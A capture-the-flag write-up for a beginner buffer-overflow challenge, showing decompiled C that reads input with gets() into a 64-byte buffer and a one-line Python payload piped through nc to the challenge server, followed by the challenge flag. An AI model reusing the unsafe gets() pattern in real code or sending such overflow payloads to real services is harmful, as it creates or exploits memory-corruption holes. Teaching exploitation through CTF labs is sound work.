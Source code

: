 # executable (300) - pwn

Total solves - 23

Final score - 254

## Description
No code this time! hahahaha

`nc ctf.copsiitbhu.co.in 31144`

Author - kn1gh7

## Atachments
executable

## Box and Port
ctf.copsiitbhu.co.in:31144

## Writeup
This challenge was intended to teach you with basics of buffer overflow

Put the binary in a decompiler and see the function. This is the output of the main function given by Hex-Rays decompiler in [dogbolt](https://dogbolt.org/?id=678a3dbb-8a43-4077-8b59-932e610b6e4f)

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[64]; // [esp+Ch] [ebp-4Ch] BYREF
  int v5; // [esp+4Ch] [ebp-Ch]

  setbuf(_bss_start, 0);
  v5 = 0;
  puts("Would you like a flag?");
  gets(s);
  if ( v5 )
    system("cat /flag.txt");
  return 0;
}
```
To understand how buffer overflow works here you need to have a basic understanding of how the stack works. Along with that you had to understand why you can exceed the 64 characters due to a vulnerability in `gets` function. You can watch [this](https://www.youtube.com/watch?v=fjMrDDj47E8) video to get a visual overview

Now clearly, we just have to overwrite the variable v5 and as `gets` is used, an input larger than 64 bytes will overwrite it (can be confirmed using gdb as well).

`python -c "print('A'*65)" | nc ctf.copsiitbhu.co.in 31144`

![terminal](image.png)

## FLAG
COPS{r3v_w17h_pwn}
